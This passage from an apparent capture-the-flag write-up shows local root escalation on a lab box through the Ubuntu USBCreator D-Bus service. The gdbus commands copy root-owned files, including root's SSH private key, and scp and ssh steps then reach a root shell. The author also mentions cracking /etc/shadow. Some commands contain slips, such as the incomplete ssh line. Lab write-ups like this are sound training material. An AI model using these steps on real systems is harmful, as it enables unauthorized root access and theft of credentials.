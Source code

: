 The USBCreator exploit allow us to get a file using root permission. If you only want to get the flag you can run the command below copying the file `root.txt` to the `/tmp` directory. 

```bash
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /tmp/somefilename true
```

If you want to truly get root and an interactive shell there are some possibilities that we must try:

- Obtain a copy of `/etc/shadow`, unshadow it and crack the passwords using John or Hashcat, which didn't worked for me with the dictionaries used;
- Verify the existence of  `id_rsa` file inside root profile, as well as the presence of it in the **authorized_keys**, which was the option we had success as below and obtained the root flag:

```bash
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/somefilename true

## Attacker machine
$ scp -i id_rsa nadav@10.10.10.206:/tmp/somefilename .
$ chmod +600 id_rsa
$ ssh -i root@10.10.10.206
root@passage:~# id
uid=0(root) gid=0(root) groups=0(root)
root@passage:~# cat /root/root.txt
<redacted>
```

I hope it was somehow useful! 

See you in the next post! :smile:
